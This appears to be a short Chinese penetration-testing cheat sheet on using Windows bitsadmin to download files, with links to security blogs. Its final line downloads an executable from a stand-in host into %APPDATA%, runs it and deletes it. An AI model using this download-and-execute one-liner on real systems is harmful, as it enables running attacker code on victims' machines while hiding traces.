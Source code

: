 bitsadmin命令（只能命令下载到已存在的路径上，win7以上）：

https://www.cnblogs.com/hookjoy/p/6550992.html

https://xz.aliyun.com/t/1654/



1.```bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

2.```bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

3.带进度条

```bitsadmin /transfer myDownLoadJob /download /priority normal "http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg" "e:\abc.jpg"```

4.多条命令(测试失败)
 
``` 
bitsadmin /create myDownloadJob
bitsadmin /addfile myDownloadJob http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\abc.jpg
bitsadmin /resume myDownloadJob
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```

列出所有任务：

bitsadmin /list /allusers /verbose  #如果列所有用户需管理员权限
bitsadmin /list /verbose
bitsadmin /cancel myDownloadJob   #删除某个任务

bitsadmin /transfer d90f <http://site.com/a> %APPDATA%\d90f.exe&%APPDATA%\d90f.exe&del %APPDATA%\d90f.exe
